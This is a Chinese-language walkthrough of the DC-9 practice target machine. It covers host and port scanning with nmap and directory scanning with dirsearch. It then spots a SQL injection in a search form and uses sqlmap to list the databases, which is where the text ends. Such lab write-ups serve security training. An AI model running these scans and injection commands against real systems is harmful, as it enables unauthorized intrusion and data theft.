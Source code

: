 ## DC-9靶机

### 信息收集

#### 主机扫描

开启靶机，ping一下存活主机

```shell
┌──(root㉿kali)-[/home/kali]
└─# nmap -sP 192.168.238.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-01 02:48 EST
Nmap scan report for bogon (192.168.238.52)
Host is up (0.0012s latency).
MAC Address: 08:00:27:7C:B1:D8 (Oracle VirtualBox virtual NIC)
```

靶机ip`192.168.238.52`

#### 端口扫描

```shell
nmap -A 192.168.238.52
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
```

发现22端口是被过滤状态，不确定是否开启

#### 目录扫描

接着扫描一下目录，没有什么信息

```
dirsearch -u http://192.168.238.52/
```

### 漏洞发现和利用

打开web页面，用万能密码发现可以返回所有信息，判断有sql注入点

![image-20240301155800131](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240301155800131.png)

bp抓包，发现是`search`参数，直接用sqlmap跑

```
sqlmap -u http://192.168.238.52/results.php --data "search=1"
```

查看数据库

```
sqlmap -u http://192.168.238.52/results.php --data "search=1" --dbs
available databases [3]:
[*] information_schema
[*] Staff
[*] users
```
